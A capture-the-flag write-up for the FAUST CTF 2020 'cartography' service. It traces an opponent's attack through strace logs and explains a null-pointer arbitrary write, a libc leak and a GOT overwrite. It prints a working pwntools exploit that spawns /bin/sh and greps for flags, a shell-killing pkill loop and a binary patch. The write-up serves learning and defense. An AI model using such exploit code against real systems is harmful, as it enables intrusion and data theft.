


# FAUST CTF 2020

## /srv/cartography

This was an [Attack/Defense](https://2020.faustctf.net/information/attackdefense-for-beginners/) CTF.  There's no task description or Jeopardy-style scoring.  Just, attack, defend, and maintain SLAs.

Tags: _pwn_ _x86-64_ _remote-shell_ _write-what-where_ _null-pointer_ _got-overwrite_ _a/d_


## Summary

I worked on this for hours and failed to find an exploit; in the final hour of the CTF I switched tactics from thrashing, to observing how this service was being attacked, and then restarted the reversing process from that point of view, and, _I figured it out!_  Alas, I still ran out of time.  C'est la vie.

> _Every problem is absurdly simple when it is explained to you. -- Sherlock Holmes_

In the end, this was as simple as taking advantage of a null pointer to write anywhere in writable memory to overwrite the GOT.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

I had options (GOT overwrite, ROP), I just didn't see the solution (in time).


### Local Testing



> It's interesting when ASCII artists try to make something round in a terminal.  Results will vary depending on the font and other terminal settings.  Above this looks almost perfect in my terminal, however in Markdown, not so much.
>
> I'll never get tired of ASCII art.

There's not a lot here.  `0` will allocate some memory (more on this later), and `1` and `2` will write and read that memory.  Any attempt to go out of bounds by offset or length or input is blocked, including integer overload (e.g. negative numbers).  `3` will write out the sector to disk using a `/dev/urandom` supplied name (that is returned to the user), and `4` will read any file (if in the correct format (hex string)), IFF you know the name of the file.

The flags are these randomly named files placed by the game server flagbot, e.g.:

```
data/985d11957a1ede5e694e7f882f826b3c
data/12721c6ea65b34505fe03ec7894e41e5
data/6c447fc3ca54ba1a30db7aa12d2dd14b
data/c9ca4afe26e2dbd46cf74e69aeefdf36
data/918fe9a4a667d296dc4fe6bb6dac03e9
```

The data is formatted with an 8 byte length, then the contents of the "sector", e.g. a legit flag from our team's server:

```
00000000  26 00 00 00 00 00 00 00  46 41 55 53 54 5f 58 77  |&.......FAUST_Xw|
00000010  6a 57 30 41 47 69 41 76  65 2b 49 6c 30 41 41 41  |jW0AGiAve+Il0AAA|
00000020  41 41 39 47 2b 6d 6d 66  50 31 42 43 61 69        |AA9G+mmfP1BCai|
```

The flag being `FAUST_XwjW0AGiAve+Il0AAAAA9G+mmfP1BCai`.

There's no logic bug that will help you discover the name of the flag, you have to find a vulnerability and exploit it.


### Attacker Analysis

I should have thought of this sooner, and I've used this before with other CTFs, but just didn't think about it until too late.

If you're not familiar with A/D, then please read the above link; in short, there are remote services (hosted by each team) that need exploiting to get flags, however you're also hosting the same services and need to defend your flags _while_ maintaining your SLA.  A/Ds are short, but the 8 hours of game time feels like a week.

Our team builds our infrastructure on bare-metal as close to the CTF as possible.  We have separate VMs for the services, VPN, and for attacking.  We also log all network traffic for realtime or post CTF analysis.  This CTF generated 10 GB of data.  However, I opted to use `strace` instead to learn from our attackers.

The vulnbox provided `/etc/systemd/system/cartography@.service` contains:

```
[Unit]
Description=FAUST CTF Cartography service

[Service]
ExecStart=/usr/bin/stdbuf -o0 /srv/cartography/cartography
WorkingDirectory=/srv/cartography
StandardInput=socket
StandardOutput=socket
User=cartography
LimitNPROC=100
LimitCPU=60
```

By changing `ExecStart` to:

```
ExecStart=/usr/bin/strace -f -ff -o /tmp/foo /usr/bin/stdbuf -o0 /srv/cartography/cartography
```

and then restarting with:

```bash
systemctl daemon-reload
systemctl restart cartography.socket
```

enables `strace` on the service and produces one discrete easy to follow file per PID:

```bash
# ls -l /tmp/foo.* | head
-rw-r--r-- 1 cartography cartography    4045 Jul 10 21:39 /tmp/foo.10003
-rw-r--r-- 1 cartography cartography    2846 Jul 10 21:39 /tmp/foo.10004
-rw-r--r-- 1 cartography cartography    5141 Jul 10 21:43 /tmp/foo.10008
-rw-r--r-- 1 cartography cartography    4045 Jul 10 21:34 /tmp/foo.10014
-rw-r--r-- 1 cartography cartography    4912 Jul 10 21:34 /tmp/foo.10015
...
```

Randomly I selected: `foo.9544` (it was at the end of the directory listing at the time), opened up in `vim`, and _boom!_, I've got the hacker's trail:



> `vim` does not disappoint, I did not expect `strace` to have color coded syntax--nice.
> 
> Of the 70 teams hacking our services I have no idea which one this was, but whomever you are, thanks for the solve!).

That is pretty damning evidence (sadly I did not add the `-ttt` option for microsecond resolution timestamps), and now I can follow the hacker's attack, step-by-step:

#### Step 1: A test?

```
read(0, "0\n", 4096)                    = 2
write(1, "Enter the sector's size:", 24) = 24
write(1, "\n", 1)                       = 1
read(0, "10\n", 4096)                   = 3
```

This looks like just a sanity check, and is not required to exploit (tested), however this could be used as part of a signature to help identify the attacker.


#### Step 2: The null pointer

```
read(0, "0\n281474976710655\n", 4096)   = 18
write(1, "Enter the sector's size:", 24) = 24
write(1, "\n", 1)                       = 1
mmap(NULL, 281474976714752, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = -1 ENOMEM (Cannot allocate memory)
brk(0x1000001357000)                    = 0x1356000
mmap(NULL, 281474976845824, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = -1 ENOMEM (Cannot allocate memory)
write(1, "Sector created!", 15)         = 15
```

Goddamnit, there is is, what eluded me for hours, how could I have missed _this!?_  It's plainly obvious to me now what to do (however, let's continue the exploitation--it has a happy ending (for me, not the hacker)).

I'll cover this in more detail in the decompile section, but the short of it is, the attacker put in `281474976710655` (`0xffffffffffff` or 2<sup>48</sup>-1) as the sector size.  Implied by the `Cannot allocate memory` error, the pointer address would have been `null` (`0`), however, the `Sector created!` implies there was no check in the code for this.

With this knowledge in hand, we can attack the server by leaking libc, changing the GOT, etc...

Fuck. Me.

Moving on...


#### Step 3: Leak libc

```
read(0, "2\n", 4096)                    = 2
write(1, "Where do you want to read?", 26) = 26
write(1, "\n", 1)                       = 1
read(0, "6303776\n8\n", 4096)           = 10
write(1, "How much do you want to read?", 29) = 29
write(1, "\n", 1)                       = 1
write(1, "\20\251b\234|\177\0\0", 8)    = 8
```

With unbounded access to the entire 48-bit address space of x86_64 and with No PIE, the first place to look is the GOT.  Above the attacker enters `6303776` (`0x603020`).  And looking that up with `objdump` or `Ghidra` we have the GOT entry for `puts`:

```
                             PTR_puts_00603020 XREF[1]:     puts:00400890  
        00603020 08 40 60        addr       puts
                 00 00 00 
                 00 00
```

The last line above in the trace is the leak being emitted as stdout.  From here it is easy to compute the base of libc.  And since each team is hosting the same services, there's no mystery what version of libc is being used.


#### Step 4: `strtoll` -> `system`

```
read(0, "1\n", 4096)                    = 2
write(1, "Where do you want to write?", 27) = 27
write(1, "\n", 1)                       = 1
read(0, "6303856\n8\n\300\331_\234|\177\0\0\n", 4096) = 19
write(1, "How much do you want to write?", 30) = 30
```

Next our attacker updated the `strtoll` GOT entry (`6303856` -> `0x603070` -> `strtoll`) with location of `system`.


#### Step 5: Pass `/bin/sh` to `system`

```
read(0, "0\n/bin/sh\n", 4096)           = 10
```

Our uninvited guest is almost there.  From the main menu a `0` is entered, and at the `
Enter the sector's size:"` prompt, `/bin/sh` is passed, but there's no `strtoll` to safely convert to an integer, it's `system` now, and a new process is forked with a shell:

```
rt_sigaction(SIGINT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f7c9c5f0840}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f7c9c5f0840}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
clone(child_stack=NULL, flags=CLONE_PARENT_SETTID|SIGCHLD, parent_tidptr=0x7ffca4f385bc) = 9805
wait4(9805, [{WIFSIGNALED(s) && WTERMSIG(s) == SIGTERM}], 0, NULL) = 9805
```

Looks like PID 9805.  Switching to `foo.9805`:

```
rt_sigaction(SIGINT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f7c9c5f0840}, NULL, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f7c9c5f0840}, NULL, 8) = 0
rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
execve("/bin/sh", ["sh", "-c", "/bin/sh\n"], 0x7ffca4f38950 /* 10 vars */) = 0
...
getpid()                                = 9805
...
getppid()                               = 9544
```

Yep, but wait, what's _this?_

```
getcwd("/srv/cartography", 4096)        = 17
geteuid()                               = 109
getegid()                               = 116
rt_sigaction(SIGINT, NULL, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigaction(SIGINT, {sa_handler=0x560707136380, sa_mask=~[RTMIN RT_1], sa_flags=SA_RESTORER, sa_restorer=0x7fc46c3be840}, NULL, 8) = 0
--- SIGTERM {si_signo=SIGTERM, si_code=SI_USER, si_pid=9807, si_uid=0} ---
+++ killed by SIGTERM +++
```

SIGTERM?  The "1337 hax0r" didn't even get a chance at a flag.  _Why?_

Well, we had the following loop killing shells:

```bash
while :; do for uid in $(cat serviceusers); do pkill -e -U $uid 'sh|nc|cat'; done; done | tee servicekil.log
```

> Thanks for the tip [PPP](https://www.reddit.com/r/netsec/comments/1k1oh4/we_are_the_plaid_parliament_of_pwning_ask_us/cbkgsvi/)

Game over, "1337 hax0r".

BTW, our attacker sent this from the previous PID, it would have been buffered and landed in the shell if not killed:

```
read(0, "grep -Pahr FAUST_ data\n", 4096) = 23
```

Another data point to create a signature to track this attacker.

    
### Decompile with Ghidra

```c
  case 0:
    puts("Enter the sector\'s size:");
    pcVar7 = fgets(local_f8,0x20,stdin);
    if (pcVar7 == (char *)0x0) goto LAB_00400f50;
    __n = strtoll(local_f8,&local_100,10);
    if ((*local_100 == '\n' || *local_100 == '\0') && (-1 < (long)__n)) {
      free(__ptr);
      local_108 = __n;
      __ptr = calloc(1,__n);
      puts("Sector created!");
    }
    else {
      printf("Invalid size for sector: %s\n",local_f8);
    }
    goto LAB_00400a00;
```

At this point there's no need to examine the entire binary, the vulnerability is now obvious; no check that `__ptr` is `null`.

Something like this is missing:

```c
if (__ptr == NULL) {
	printf("Cannot allocate memory\n");
	local_108 = 0; # very important
} else {
	puts("Sector created!");
}
```

> `local_108` must be zero'd or all the other logic will still permit the exploit.


## Attack

Given all the analysis, the exploit is rather simple:

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./cartography')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc = ELF('libc-database/db/libc6_2.28-10_amd64.so')

#p = process(['stdbuf','-i0','-o0','-e0',binary.path])
p = remote('vulnbox', 6666)

# null pointer
p.sendlineafter('>','0')
p.sendlineafter('Enter the sector\'s size:\n',str(2**48 - 1))

# leak libc
p.sendlineafter('> ','2')
p.sendlineafter('Where do you want to read?\n',str(binary.got['puts']))
p.sendlineafter('How much do you want to read?\n','8')
puts = u64(p.recv(8))
log.info('puts: ' + hex(puts))
baselibc = puts - libc.symbols['puts']
log.info('baselibc: ' + hex(baselibc))
libc.address = baselibc

# strtoall -> system
p.sendlineafter('> ','1')
p.sendlineafter('Where do you want to write?',str(binary.got['strtoll']))
p.sendlineafter('How much do you want to write?\n','8')
p.sendlineafter('Enter your sensor data:',p64(libc.symbols['system']))

# get a shell
p.sendlineafter('>','0')
p.sendlineafter('Enter the sector\'s size:\n','/bin/sh')
p.interactive()
```

Output (from local vulnbox instance):

```bash
# ./exploit.py
[*] '/pwd/datajerk/faustctf2020/srv/cartography/cartography'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/pwd/datajerk/faustctf2020/srv/cartography/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 172.19.2.18 on port 6666: Done
[*] puts: 0x7fcb9aa02910
[*] baselibc: 0x7fcb9a991000
[*] Switching to interactive mode
$ id
uid=109(cartography) gid=116(cartography) groups=116(cartography)
$ pwd
/srv/cartography
$ grep -Pahr FAUST_ data
&\x00\x00\x00\x00AUST_XwjbvAGiAn7erlcAAAAABtp5nB/HgA9R
&\x00\x00\x00\x00AUST_XwiWIAGiAikrbLMAAAAAIlwPKw1A6adC
&\x00\x00\x00\x00AUST_XwinAAGiAhVYUrsAAAAA4pzCWXmUDTmn
&\x00\x00\x00\x00AUST_XwjiEAGiAtVS0h0AAAAAPcqH+5WXZyah
&\x00\x00\x00\x00AUST_XwjW0AGiAve+Il0AAAAA9G+mmfP1BCai
```

> I used the attacker's `grep` command to get a flags.

Output with killer loop:

```
# ./exploit.py
[*] '/pwd/datajerk/faustctf2020/srv/cartography/cartography'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/pwd/datajerk/faustctf2020/srv/cartography/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 172.19.2.18 on port 6666: Done
[*] puts: 0x7f9498c03910
[*] baselibc: 0x7f9498b92000
[*] Switching to interactive mode
Sector created!
Options:
0. New Sector
1. Update Sector Data
2. Read Sector Data
3. Save Sector
4. Load Sector
5. Exit
```

`/bin/sh` was killed and session returned back to menu.


## Defense

### First line

Our base defense did keep this attacker out:

```bash
while :; do for uid in $(cat serviceusers); do pkill -U $uid 'sh|nc|cat'; done; done | tee servicekil.log
```

However, flags were still stolen.

In the ~30 min I had the `strace` front-ending this service 5628 PID files were created; we were getting pounded (but managed to kill 2487 shells, not every PID was a shell).  However, only 22 of the PIDs managed to get flags and used one of the following:

```
execve("/usr/bin/strings", ["strings", "a54226d09ecb764feddf6df96a073bf9", "e655707a790f68faaaf769d65794a466", "00000000000000000000000000000000", "7c957eba39eb18d2a98b19552b1b66ac", "3818b68cd6d14ec622185e7cbe42acb4", "7ea93ad7510e629aa8e91f312b997387", "6d45d9eadb1bd3dfd1bedf0b2c68e969", "5b409e8d7028435b72912fa9e66f78aa", "2140e6ddd81d878f923e9d5507c877c5", "8fca86911b94382bd65cafd8648b5f7f"], 0x7fff4b292100 /* 12 vars */) = 0

execve("/usr/bin/egrep", ["egrep", "-ra", "FAUST_[A-Za-z0-9/+]{32}"], 0x5641db672c00 /* 12 vars */) = 0

execve("/usr/bin/grep", ["grep", "-ar", "FAUST", "data"], 0x558505c7fc30 /* 11 vars */) = 0
```

Tracing a few of these back does reveal that `execve("/bin/sh", ["sh", "-c", ...` is also called.  IOW, our loop isn't tight enough.  OTOH, surgical is the way to go...

> Note to self, block `execve`.
> 
> Only allow non-service accounts to run `/bin/sh` perhaps.
> 
> Add `strings`, et al to list.

Local testing with unburdened vulnbox:

```
1594523547.773455 read(0, "/bin/sh\n", 4096) = 8
1594523547.774690 rt_sigaction(SIGINT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f8add77f840}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
1594523547.774713 rt_sigaction(SIGQUIT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f8add77f840}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
1594523547.774728 rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
1594523547.774744 clone(child_stack=NULL, flags=CLONE_PARENT_SETTID|SIGCHLD, parent_tidptr=0x7ffd1e4cac1c) = 17547
```

`foo.17547`:

```
1594523547.820371 --- SIGTERM {si_signo=SIGTERM, si_code=SI_USER, si_pid=17548, si_uid=0} ---
1594523547.820570 +++ killed by SIGTERM +++
```

I added timestamps to my local vulnbox, there's not a lot of wiggle room there, 0.045 seconds to get the loot.  Again, unburdened system.

> Perhaps consider one loop per service.


### Surgical

Ultimately, patching the service is the best approach, esp. if one of the services has a legit reason for using `sh|nc|cat`, e.g. a startup script.

The following will patch the binary so that if `NULL` is returned `local_108` will be set to zero, and the user will get an `Invalid range` error and returned to the top of the menu:

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./cartography')
context.update(arch='amd64',os='linux')

binary.asm(0x400dfe,'''
jnz ok
nop
mov QWORD PTR [rsp+0x10],rax
jmp 0x400c7a
ok:
''')

binary.save(binary.path + '_patched')
os.chmod(binary.path + '_patched',0o755)
```

Old binary test:

```
> 0
Enter the sector's size:
281474976710655
Sector created!
Options:
0. New Sector
1. Update Sector Data
2. Read Sector Data
3. Save Sector
4. Load Sector
5. Exit
> 1
Where do you want to write?
1
How much do you want to write?
1
Enter your sensor data:
a
Segmentation fault
```

Segfault, vulnerable.

New binary test:

```
> 0
Enter the sector's size:
281474976710655
Invalid range
Options:
0. New Sector
1. Update Sector Data
2. Read Sector Data
3. Save Sector
4. Load Sector
5. Exit
> 1
Where do you want to write?
1
How much do you want to write?
1
Invalid range
Options:
0. New Sector
1. Update Sector Data
2. Read Sector Data
3. Save Sector
4. Load Sector
5. Exit
```

No segfault, [one] vulnerability patched (dunno if there are others).

Oh, and yet another _fuck me_ moment:

```assembly
  400df6:       e8 25 fb ff ff          call   400920 <calloc@plt>
  400dfb:       48 89 c5                mov    rbp,rax
  400dfe:       90                      nop
  400dff:       90                      nop
  400e00:       90                      nop
  400e01:       90                      nop
  400e02:       90                      nop
  400e03:       90                      nop
  400e04:       90                      nop
  400e05:       90                      nop
  400e06:       90                      nop
  400e07:       90                      nop
  400e08:       90                      nop
  400e09:       90                      nop
  400e0a:       90                      nop
  400e0b:       90                      nop
  400e0c:       90                      nop
  400e0d:       90                      nop
  400e0e:       90                      nop
  400e0f:       90                      nop
  400e10:       90                      nop
  400e11:       90                      nop
  400e12:       bf c3 13 40 00          mov    edi,0x4013c3
```

Had I taken 2 seconds to look at the disassembly, vs. just the decompile, I'd had seen all them sweet sweet nops screaming _patch me!!!_

Live and learn.

Thank you FAUST!
